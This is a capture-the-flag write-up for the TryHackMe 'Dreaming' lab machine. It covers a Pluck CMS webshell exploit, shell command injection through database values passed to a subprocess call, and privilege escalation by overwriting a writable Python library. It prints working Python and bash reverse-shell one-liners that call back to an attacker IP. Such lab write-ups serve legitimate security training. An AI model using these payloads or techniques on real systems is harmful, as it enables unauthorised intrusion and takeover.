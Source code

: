 ```yaml
---
title: Dreaming (THM)
description: Write-up of Dreaming Machine 
date: 2023-05-01 09:00:00 -3000
categories: [tryhackme]
tags: [tryhackme, thm, writeup, easy, machine, linux, code-injection, path-manipulation]
author: trace
---
```

## Reconnaissance

we start with the nmap scan and see the following ports which are open

![[nmapscan.png]](https://i.imgur.com/CpHTNiT.png)

nothing too interesting for now so we run directory bruteforce in order to find something

![[gobuster.png]](https://i.imgur.com/oaDZmeC.png)

and as you can see we do get to see something interesting here `/app` seems kinda interesting to me so we visit that web directory

and it's the pluck cms version 4.7.13

![[pluck.png]](https://i.imgur.com/LpbN4Mp.png)

further we see it asks for the password and upon trying some default creds `password` was the right password so we get a login successful on this

from here on i further start to enumerate this cms and looking for the exploit for this specific version and exploitDB fortunately has one 

![[exploit.png]](https://i.imgur.com/pg1ayL3.png)

so we prepare the payload and run the exploit on this vulnerable cms
and it successfully upload the webshell, 

![[uploadedwebshell.png]](https://i.imgur.com/vu2YwiC.png)

## Foothold (User1)

So upon visiting that webshell we get a revshell to our machine of that webshell and get the `www-user`

![[Screenshot_2023-11-24_15-12-51.png]](https://i.imgur.com/DivQXpN.png)

and now we look for low hanging fruits and potential to get a user so we could get our first flag
and after quite a while of doing some manual enumeration, we find lucien password found **/opt/test.py** 
and can login into SSH with it and get our first flag

![[lucianuser.png]](https://i.imgur.com/h8BTpHk.png)


## Foothold (User2)

from the past enumeration i saw one more script in the `/opt` directory which was owned user `death`.
and lucian can execute  `getDreams.py`  as death user without a password, but we cannot read it.

![[privescloop1.png]](https://i.imgur.com/BjX0bQ3.png)
so now comes the code reviewing part lol which was super easy here we see a mysql connection, but the credentials are redacted

````python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
````

So it goes like: 
1. **MySQL Credentials:** The code defines three variables, `DB_USER`, `DB_PASS`, and `DB_NAME`, to store the MySQL credentials. These credentials are used to connect to the MySQL database.
    
2. `getDreams()` Function: The `getDreams()` function is the main part of the code. It handles the process of connecting to the MySQL database, fetching data from the `dreams` table, and echoing the dreamer and dream information to the console.
    
    a. **Connecting to MySQL:** The `try-except-finally` block is used to handle any errors that might occur during the database connection or query execution. The `connect()` method of the `mysql.connector` library is used to establish a connection to the MySQL database using the provided credentials.
    
    b. **Executing SQL Query:** A cursor object is created using the `connection.cursor()` method. This cursor object is used to execute SQL queries against the database. The `query` variable contains the SQL query to fetch the `dreamer` and `dream` columns from the `dreams` table. The `cursor.execute(query)` method is used to execute the query.
    
    c. **Fetching Dreamer and Dream Information:** The `cursor.fetchall()` method is used to fetch all the rows from the result set of the executed query. Each row contains a tuple of the `dreamer` and `dream` values.
    
    d. **Echoing Dreamer and Dream Information:** If there are no dreams found in the database, an error message is printed. Otherwise, the code loops through the fetched dream information and constructs a command using the `subprocess` library. The command is used to echo the dreamer and dream information to the console.
    
    e. **Closing Cursor and Connection:** Finally, the cursor and connection objects are closed using the `cursor.close()` and `connection.close()` methods, respectively. This ensures that the connection resources are properly released.
    
3. **Calling `getDreams()` Function:** The `getDreams()` function is called at the end of the code to execute the process of fetching and echoing dream information.
   
so we can clearly see command execution happening here

````python
command = f"echo {dreamer} + {dream}"
````

the variables `dreamer` and `dream` come from the mysql connection, so we need to connect to it someway.
now we do more enumeration and finally i see the .bash_history was getting refferred to `/dev/null` so we can read the .bash_histroy
and you can clearly see that is here where the information from getDreams are being retrieved.

![[lucianpass.png]](https://i.imgur.com/fsPFgth.png)
since lucien can insert into table “dreams”, we can insert a payload to get us a reverse shell.

so we create a bash script file that returns a python reverse shell to be executed 
````python
export RHOST="10.9.142.204";export RPORT=7777;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
````

so now what we do is inset into `dreams` table the python payload we have created  
![[valuesinserted.png]](https://i.imgur.com/I8BSWuI.png)
and execute `getDreams.py` as death user to get a reverseshell as `death` user.

````bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
````

and We get the `death` user

![[Screenshot_2023-11-24_16-39-48.png]](https://i.imgur.com/mHoEh4E.png)

now enuemating `morpheus` user's directory we see quite a few interesting things

![[morpheushome.png]](https://i.imgur.com/Burg34H.png)

## Root (User3)

so once i cat that script we can see it is import shutil from somewhere

````bash
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")````

so now we try to grep the `shutil` and we find it here `/usr/lib/python3.8/shutil.py `
reviewing the code and checking for perms we can see it is ran as morpheus user which is our last and final user(root). and we have edit permissions to it

so we put our reverse shell in the `shutil.py`

```python
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.9.142.204/7777 0>&1'\")" > /usr/lib/python3.8/shutil.py
````

And we get the shell after few seconds

![[root.png]](https://i.imgur.com/4hkOVm1.png)

![[rootflag.png]](https://i.imgur.com/hNzfGe3.png)
